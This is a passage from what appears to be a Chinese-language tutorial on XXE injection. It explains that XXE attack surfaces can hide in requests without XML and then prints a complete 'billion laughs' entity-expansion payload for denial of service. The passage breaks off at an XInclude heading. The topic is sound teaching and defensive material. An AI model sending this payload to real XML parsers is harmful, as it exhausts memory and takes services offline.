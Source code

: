 [![](assets/1706060044-592c430d7dd4f3b9fc214a2408b8475a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132520-ccd139a6-b9af-1.png)

## 特殊攻击

### 基本介绍

在许多情况下 XXE 注入漏洞的攻击面是显而易见的，因为应用程序的正常 HTTP 流量包括包含 XML 格式数据的请求。在其他情况下攻击表面不太明显，但是如果您查找正确的位置，您会在不包含任何 XML 的请求中发现 XXE 攻击表面

### 拒绝服务

攻击说明：下面样例代码中的 XXE 漏洞攻击就是著名的"billion laughs"攻击 ([https://en.wikipedia.org/wiki/Billion\_laughs)，该攻击通过创建一项递归的XML定义，在内存中生成十亿个"Ha!"字符串，从而导致DDoS攻击](https://en.wikipedia.org/wiki/Billion_laughs)%EF%BC%8C%E8%AF%A5%E6%94%BB%E5%87%BB%E9%80%9A%E8%BF%87%E5%88%9B%E5%BB%BA%E4%B8%80%E9%A1%B9%E9%80%92%E5%BD%92%E7%9A%84XML%E5%AE%9A%E4%B9%89%EF%BC%8C%E5%9C%A8%E5%86%85%E5%AD%98%E4%B8%AD%E7%94%9F%E6%88%90%E5%8D%81%E4%BA%BF%E4%B8%AA)  
攻击原理：构造恶意的 XML 实体文件耗尽可用内存，因为许多 XML 解析器在解析 XML 文档时倾向于将它的整个结构保留在内存中，解析非常慢造成了拒绝服务器攻击，除了这些攻击者还可以读取服务器上的敏感数据，还能通过端口扫描，获取后端系统的开放端口

```bash
<?xml version="1.0"?>
 <!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
 ]>
 <lolz>&lol9;</lolz>
```

### XInclude(思路)
